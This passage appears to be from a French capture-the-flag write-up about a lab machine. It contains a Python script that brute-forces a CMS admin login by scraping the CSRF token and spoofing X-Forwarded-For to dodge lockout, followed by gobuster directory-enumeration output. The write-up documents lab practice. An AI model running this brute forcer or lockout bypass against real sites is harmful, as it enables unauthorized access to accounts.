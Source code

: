 ```
# Add the correct password to the end of the list
# wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```



![image-20200605091855280](/assets/img/image-20200605091855280.png)

Ma tentative de bruteforce échoue. Je continue mes énumérations.

```
kali@kali:~$ gobuster dir -u http://10.10.10.191 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 80 -a Linux -x .txt,.php,.bak,.old
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.191
[+] Threads:        80
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     Linux
[+] Extensions:     txt,php,bak,old
[+] Timeout:        10s
===============================================================
2020/06/05 05:32:24 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.bak (Status: 403)
/.htaccess.old (Status: 403)
/.hta (Status: 403)
/.hta.txt (Status: 403)
```